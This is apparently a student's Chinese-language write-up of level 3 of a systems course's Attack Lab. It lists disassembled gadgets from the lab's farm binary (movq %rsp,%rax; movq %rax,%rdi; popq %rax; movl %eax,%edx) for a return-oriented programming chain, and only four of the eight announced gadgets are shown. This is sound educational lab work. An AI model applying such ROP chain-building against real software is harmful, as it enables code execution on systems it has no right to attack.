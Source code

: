 handout说，这次的attack只算一个credit，超出了课程的预期。于是我也就学习一下网上的做法，记录下来罢了。~~（就是懒吗）~~

栈帧如下：

![](ROP-L3-stack.png)

八个gadget分别是：

```assembly
# gadget1: 48 89 e0, movq %rsp, %rax
0000000000401a03 <addval_190>:
  401a03: 8d 87 41 48 89 e0     lea    -0x1f76b7bf(%rdi),%eax
  401a09: c3  
```

```assembly
# gadget2: 48 89 c7，movq %rax, %rdi
00000000004019a0 <addval_273>:
  4019a0: 8d 87 48 89 c7 c3     lea    -0x3c3876b8(%rdi),%eax
  4019a6: c3
```

```assembly
# gadget3: 58, popq %rax
00000000004019ca <getval_280>:
  4019ca: b8 29 58 90 c3        mov    $0xc3905829,%eax
  4019cf: c3   
```

```assembly
# gadget4: 89 c2, movl %eax, %edx
00000000004019db <getval_481>:
  4019db: b8 5c 89 c2 90        mov    $0x90c2895c,%eax
  4019e0: c3    
```
